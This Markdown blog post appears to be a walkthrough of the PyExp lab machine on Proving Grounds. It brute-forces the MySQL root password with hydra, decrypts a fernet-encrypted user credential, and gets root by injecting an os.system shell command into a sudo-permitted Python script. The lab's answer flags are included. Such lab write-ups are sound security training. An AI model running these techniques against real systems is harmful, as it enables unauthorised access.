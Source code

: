 ```yaml
---
title: PxExp
categories: [Proving Grounds, Play]
tags: [Password Bruteforce, PrivEsc, mysql]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  PxExp Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled.png)

```bash
IP : 192.168.249.139
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pyexp]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 11:44 EDT
Nmap scan report for 192.168.249.139
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 47
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Speaks41ProtocolNew, IgnoreSigpipes, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, InteractiveClient, ODBCClient, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Support41Auth, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <Y-t"G#s>{qEC`:@p7`]
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:26:C6:0F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## MySQL Enumeration ⤵️

Lets try hydra for mysql login with user as root →

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.249.139 -t 4
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%201.png)

Got credentials as →

```bash
root : prettywoman
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%202.png)

Now lets dig deeper →

```bash
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.001 sec)
MariaDB [data]> select * from fernet \G ;
*************************** 1. row ***************************
cred: gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=
keyy: UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
1 row in set (0.001 sec)

ERROR: No query specified

MariaDB [data]>
```
{: .nolineno}
{: .nolineno}

Now I searched for fernet decode and  I got this site →

[https://asecuritysite.com/tokens/ferdecode](https://asecuritysite.com/tokens/ferdecode)

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%203.png)

```bash
credentials ->
lucy  :  wJ9`"Lemdv9[FEw-
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%204.png)

Now lets find path to root →

```bash
lucy@pyexp:~$ 
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/sh")
# exit
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/bash"); 
root@pyexp:/home/lucy# whoami
root
root@pyexp:/home/lucy# id
uid=0(root) gid=0(root) groups=0(root)
root@pyexp:/home/lucy# cd ~
root@pyexp:~# ls -al
total 32
drwx------  3 root root 4096 Aug 10  2020 .
drwxr-xr-x 18 root root 4096 Aug 10  2020 ..
-rw-------  1 root root    5 Aug 10  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 10  2020 .local
-rw-------  1 root root 2731 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 10  2020 root.txt
root@pyexp:~# cat root.txt
a7a7e80ff4920ff06f049012700c99a8
root@pyexp:~#
root@pyexp:/home/lucy# ls
user.txt
root@pyexp:/home/lucy# cat user.txt
8ca196f62e91847f07f8043b499bd9be
root@pyexp:/home/lucy#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }